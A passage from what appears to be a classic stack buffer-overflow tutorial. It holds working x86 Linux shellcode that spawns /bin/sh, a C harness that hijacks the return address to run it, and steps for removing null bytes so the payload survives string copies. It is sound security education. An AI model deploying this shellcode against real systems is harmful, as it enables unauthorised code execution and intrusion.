 ```
.
------------------------------------------------------------------------------
```

{% highlight C %}
testsc.c
------------------------------------------------------------------------------
char shellcode[] =
	"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
	"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
	"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
	"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() {
   int *ret;

   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;

}
------------------------------------------------------------------------------
{% endhighlight %}

```
------------------------------------------------------------------------------
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
------------------------------------------------------------------------------
```

It works! But there is an obstacle.  In most cases we'll be trying to
overflow a character buffer.  As such any null bytes in our shellcode will be
considered the end of the string, and the copy will be terminated.  There must
be no null bytes in the shellcode for the exploit to work.  Let's try to
eliminate the bytes (and at the same time make it smaller).

```
           Problem instruction:                 Substitute with:
           --------------------------------------------------------
           movb   $0x0,0x7(%esi)                xorl   %eax,%eax
	   molv   $0x0,0xc(%esi)                movb   %eax,0x7(%esi)
                                                movl   %eax,0xc(%esi)
           --------------------------------------------------------
           movl   $0xb,%eax                     movb   $0xb,%al
           --------------------------------------------------------
           movl   $0x1, %eax                    xorl   %ebx,%ebx
           movl   $0x0, %ebx                    movl   %ebx,%eax
                                                inc    %eax
           --------------------------------------------------------
```

Our improved code:
